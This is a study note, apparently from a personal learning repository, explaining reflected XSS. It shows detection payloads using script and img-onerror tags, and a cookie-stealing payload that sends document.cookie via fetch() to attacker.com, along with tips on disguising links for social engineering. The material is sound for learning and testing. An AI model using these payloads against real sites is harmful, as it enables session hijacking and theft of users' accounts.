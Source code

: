 # 04.reflected-xss

04/05/25

## Recall

- What is Reflected XSS?
- What can you do with a reflected XSS?
- What is a XSS payload?
- How can social engineering help exploit reflected XSS?

## Notes

### What it is

**Reflected XSS (Cross-Site Scripting)** is a type of script injection attack where input from the user is immediately reflected by the web application without proper sanitization or encoding.

A **reflected XSS** attack can lead to:

- Credential theft (e.g., session hijacking via cookies)
- Redirection to malicious pages
- User impersonation through session data compromise

### How to identify it

To detect a **reflected XSS** vulnerability, try injecting payloads into various input points of the application, especially in **search fields** or **search** **URL parameters**.

Example:

```bash
http://10.10.10.1/index.php?search=<script>alert('something')</script>
```

If the application reflects and executes the script in the response:

```bash
<p>You searched for: <script>alert('something')</script></p>
```

…then the vulnerability is present

If the application blocks `<script>`, **HTML injection** may still be possible by using elements with executable attributes:

```bash
http://10.10.10.1/index.php?search=<img src=x.png onerror="alert('something')">
```

Which might be reflected as:

```bash
<p>You searched for: <img src=x.png onerror="alert('something')"></p>
```

### How to exploit it

Once confirmed, you can craft a malicious payload that performs a specific action and deliver the link to the target user.

Example payload to steal cookies:

```bash
https://10.10.10.1/index.php?search=<script>fetch(`http://attacker.com/steal-cookie?cookie=${document.cookie}`)</script>
```

When the victim clicks the link, their session data is sent to the attacker’s server, potentially allowing session impersonation.

Since **reflected XSS requires user interaction**, it often relies on **social engineering**. Attackers may disguise the payload using URL shorteners or obfuscation to hide the malicious code.

## Summary

Reflected XSS is characterized by the reflection of unsanitized user input directly in the HTTP response, allowing attackers to inject and execute arbitrary JavaScript in the victim’s browser. This occurs when the application takes a parameter from the URL or a form and includes it in the page output without proper encoding or validation. Since the payload is not stored and depends on the victim clicking a crafted link, the attack often relies on social engineering. Once executed, it can lead to session hijacking, credential theft, or redirection to malicious websites.